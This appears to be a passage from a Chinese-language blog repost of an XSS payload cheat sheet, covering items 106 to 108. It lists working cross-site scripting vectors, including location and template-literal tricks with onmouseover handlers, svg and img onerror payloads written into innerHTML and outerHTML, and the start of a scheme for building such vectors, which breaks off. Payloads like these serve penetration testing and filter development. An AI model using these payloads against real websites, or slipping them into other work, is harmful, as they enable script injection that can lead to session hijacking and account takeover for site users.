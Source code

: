 ##### 106.Location with Template Literal (具有模板文本的位置)

```

${alert(1)}<javascript:`//οnmοuseοver=location=tagName+URL>hoverme!
${alert(1)}<j/οnmοuseοver=location=innerHTML+URL>javascript:`//hoverme!
${alert(1)}<javas/οnmοuseοver=location=tagName+innerHTML+URL>cript:`//hoverme!
${alert(1)}`<javascript:`//
οnmοuseοver=location=tagName+previousSibling.nodeValue>hoverme!
${alert(1)}`<javas/
οnmοuseοver=location=tagName+innerHTML+previousSibling.nodeValue>cript:`hoverme!
```

##### 107.Inner & Outer HTML Properties Alternative (内部和外部HTML属性选项)

```
最后这些payload利用元素的innerHTML和outerHTML属性得到与位置向量相同的结果。但是他们需要创建一个完整的HTML向量，而不是一个javascript:aler(1)字符串。下面的元素集合可以与索引0一起使用，它们都可以替换下面使用的head或body元素,以便更容易地遵循：all[0]、anchors[0],、embed[0]、forms[0]、images[0]、links[0]和scripts[0]。

<svg id=<img/src/onerror=alert(1)> οnlοad=head.innerHTML=id>
<svg id=<img/src/onerror=alert(1)> οnlοad=body.outerHTML=id>
```

##### 108.XSS Vector Schemes (XSS向量格式)

```
基本上有3种不同的方案来构建基于HTML的XSS向量。所有字符根据有效语法，用于分隔字段的字节显示在下拉列表中。 %x表示从%00到%0F的每个字节，以及%1X。ENT表示HTML实体,这意味着任何允许的字符或字节都可以在它们的HTML实体表单中使用（字符串和数字）。 最后，注意javascript这个词可能有一些字节介于两者之间  字符也可以是URL或HTML编码的。  Vector Scheme 1 (tag name + handler)

```

————————————————
版权声明：本文为CSDN博主「haoaaao」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/haoaaao/article/details/125553450



